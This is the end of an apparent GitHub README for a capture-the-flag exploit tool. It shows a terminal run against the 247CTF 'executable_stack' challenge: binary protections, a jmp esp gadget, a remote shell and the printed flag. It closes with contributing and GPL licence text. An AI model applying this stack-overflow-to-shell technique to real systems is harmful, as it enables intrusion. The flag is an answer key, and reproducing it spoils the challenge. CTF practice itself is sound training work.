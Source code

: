 **Target: Remote Host @ `tcp://8e001fc4700cecd1.247ctf.com:50113`**

```bash
[*] '/home/kali/Documents/executable_stack'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
Run [local] process or [remote] connection? remote
Enter the full remote address (format tcp://host:port): tcp://8e001fc4700cecd1.247ctf.com:50113
[+] Opening connection to 8e001fc4700cecd1.247ctf.com on port 50113: Done
Enter the fault address in hexadecimal format (e.g., 0x6261616b): 0x6261616b
Address of jmp esp: 0x80484b3
[*] Switching to interactive mode
There are no flag functions here!
You can try to make your own though:
$ ls
chall
flag_27886b9a498ed936.txt
$ tail flag_27886b9a498ed936.txt
247CTF{27886b9a498ed93685af9db0b1e304ec}
```

## Contributing

If you have an idea for an improvement or if you're interested in collaborating, you are welcome to contribute. Please feel free to open an issue or submit a pull request.

## License

This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program. If not, see https://www.gnu.org/licenses/.
